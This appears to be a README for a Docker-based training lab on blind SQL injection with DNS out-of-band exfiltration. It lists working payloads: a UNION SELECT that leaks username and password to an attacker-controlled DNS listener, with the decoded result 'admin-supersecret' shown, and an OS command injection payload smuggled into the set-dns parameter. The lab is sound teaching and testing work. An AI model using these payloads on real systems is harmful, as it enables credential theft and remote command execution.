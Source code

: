 # Blind SQLi Lab with DNS Exfiltration (Out-of-Band)

This lab simulates a vulnerable web application that is susceptible to blind SQL injection. The application uses user input to perform DNS resolution on a hostname retrieved from a database, allowing for **out-of-band (OOB)** data exfiltration via DNS queries to a controlled server.

## 🧪 Lab Components

- **Flask Web App (`/web`)**: 
  - A vulnerable endpoint `/search?id=<number>` executes an unsanitized SQL query.
  - It uses `nslookup` to resolve a hostname retrieved from the database.
  - Optional parameter: `set-dns=<IP>` to specify a custom DNS server for resolution.

- **DNS Listener (`/dns-server`)**:
  - A Python script that runs a simple UDP DNS server and logs incoming raw DNS queries for analysis.

- **Docker**:
  - Docker Compose is used to run both services in isolated containers.

---

## 🛠️ How to Run the Lab

### Clone this repo

	git clone https://github.com/zinzloun/blindSQLi-DNS-OOB.git
 	cd cd blindSQLi-DNS-OOB

### Run containers

	sudo docker-compose build --no-cache
 	sudo docker-compose up                                     
	Creating network "blindsqli-dns-oob_dns-net" with the default driver
	Creating blindsqli-dns-oob_dns-server_1 ... done
	Creating blindsqli-dns-oob_web_1        ... done
	Attaching to blindsqli-dns-oob_web_1, blindsqli-dns-oob_dns-server_1
	web_1         |  * Serving Flask app 'app'
	web_1         |  * Debug mode: off
	web_1         | WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
	web_1         |  * Running on all addresses (0.0.0.0)
	web_1         |  * Running on http://127.0.0.1:5000
	web_1         |  * Running on http://172.20.53.10:5000
	web_1         | Press CTRL+C to quit

	
This will:

- Start the vulnerable web app at http://localhost:8080

- Start the DNS listener: default port UDP 53, internal docker net IP 172.20.53.53


### Payloads

- Using default DNS: this performs a lookup to www.google.it using default DNS -> OK
	
	  /search?id=1
	
Check web app console log

	web_1         | Server:         127.0.0.11
	web_1         | Address:        127.0.0.11#53
	web_1         | 
	web_1         | Non-authoritative answer:
	web_1         | Name:   www.google.it
	web_1         | Address: 216.58.204.227
	web_1         | Name:   www.google.it
	web_1         | Address: 2a00:1450:4002:415::2003
	web_1         | 
	web_1         | 172.20.53.1 - - [09/Jul/2025 08:31:51] "GET /search?id=1 HTTP/1.1" 200 -
	
 - Using custom DNS: this perform the same lookup query using our controlled DNS to resolve it -> Error (but it's expected)

	   /search?set-dns=172.20.53.53&id=1

Check web app console log

 	web_1         | 172.20.53.1 - - [09/Jul/2025 08:31:51] "GET /search?id=1 HTTP/1.1" 200 -
	web_1         | ;; communications error to 172.20.53.53#53: timed out
	web_1         | ;; communications error to 172.20.53.53#53: timed out
	web_1         | ;; communications error to 172.20.53.53#53: timed out
	web_1         | ;; no servers could be reached
	web_1         | 
	web_1         | 172.20.53.1 - - [09/Jul/2025 08:38:27] "GET /search?set-dns=172.20.53.53&id=1 HTTP/1.1" 200 -

	
Indeed check logged queries on our DSN container

	sudo docker exec -it blindsqli-dns-oob_dns-server_1 /bin/bash                                      
	root@004315a2105c:/app# cat dns_log.txt 

	2025-07-09 08:38:12,913 - DNS query from ('172.20.53.10', 41104): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001
	2025-07-09 08:38:17,917 - DNS query from ('172.20.53.10', 41908): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001
	2025-07-09 08:38:22,921 - DNS query from ('172.20.53.10', 57648): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001

 Decode the raw query:

 	root@004315a2105c:/app# exit
	[~/blindSQLi-DNS-OOB] python decode-raw-dnsq.py 942b010000010000000000000377777706676f6f676c650269740000010001        
	[+] Plain domain value: www.google.it

## 💥Exploitation 
Knowing that we can control the DNS parameter for nslookup and assuming that a users table is also present in the DB - how could it be missing? 😊  - we can use the following payload to exfiltrate sensitive information:

	/search?set-dns=172.20.53.53&id=1 UNION SELECT (SELECT username || '-' || password FROM users WHERE id=1)
 Check again the logged query

 	[~/blindSQLi-DNS-OOB] sudo docker exec -it blindsqli-dns-oob_dns-server_1 /bin/bash                              
	root@004315a2105c:/app# cat dns_log.txt 
	2025-07-09 08:38:12,913 - DNS query from ('172.20.53.10', 41104): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001
	2025-07-09 08:38:17,917 - DNS query from ('172.20.53.10', 41908): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001
	2025-07-09 08:38:22,921 - DNS query from ('172.20.53.10', 57648): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001
	2025-07-09 08:50:39,508 - DNS query from ('172.20.53.10', 60256): RAW = 697e010000010000000000001161646d696e2d73757065727365637265740000010001
	2025-07-09 08:50:44,513 - DNS query from ('172.20.53.10', 49822): RAW = 697e010000010000000000001161646d696e2d73757065727365637265740000010001
	2025-07-09 08:50:49,517 - DNS query from ('172.20.53.10', 40392): RAW = 697e010000010000000000001161646d696e2d73757065727365637265740000010001
	root@004315a2105c:/app# 
Decode the last entries

 	root@004315a2105c:/app# exit
  	[~/blindSQLi-DNS-OOB] python decode-raw-dnsq.py 697e010000010000000000001161646d696e2d73757065727365637265740000010001                                                             
	[+] Plain domain value: admin-supersecret

## ❓ Why this Lab?
Incredible enough I found this logic implemented in a real app. The parameter where passed as JSON object in the body request to an API, but the logic was the same as presented in this lab, actually:
- no inpunt parameters validation
- control nslookup DNS server

You can eventually automate the process using SQLMap. You can find a good resource at https://blog.cyberadvisors.com/technical-blog/unblinding-blind-sql-injection-using-dns-exfiltration

## Useful docker commands

### Stop containers

	sudo docker compose down 
	
### Rebuild containers
	
	sudo docker-compose build --no-cache

## 💡 Additional vulnerability
Actually the application is also vulnerable to blind OS command injection. Try for istance the following payload:

	/search?set-dns=172.20.53.53 %26 touch %2Ftmp%2Fa&id=1
Verify that /tmp/a file is present inside the web container
	
 	[~/blindSQLi-DNS-OOB] sudo docker exec -it blindsqli-dns-oob_web_1 /bin/bash
	root@f14b578ea18d:/app# ls -al /tmp/a 
	-rw-r--r-- 1 root root 0 Jul 10 07:04 /tmp/a

 


